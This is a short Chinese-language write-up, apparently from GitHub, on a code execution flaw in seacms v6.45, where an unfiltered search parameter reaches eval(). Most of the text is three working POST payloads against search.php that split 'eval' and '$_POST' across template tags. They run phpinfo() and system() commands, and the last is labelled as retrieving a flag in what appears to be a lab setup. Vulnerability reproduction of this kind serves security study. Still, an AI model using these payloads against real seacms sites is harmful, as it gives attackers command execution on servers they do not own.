


# seacms v6.45 任意代码执行漏洞 by [Aa1141415869](https://github.com/Aa1141415869)

## 一、漏洞描述

seacms v6.45 中有个可控的变量没有经过过滤，就被带入了 eval() 中，导致了代码执行。

## 二、漏洞复现

使用 hackbar 插件进行漏洞复现

### 1. 代码执行

http://xxxxxxxx/search.php

post数据：

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();
```


### 2. 命令执行

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('dir');
```



### 3. 获取Flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('ls /tmp');
```

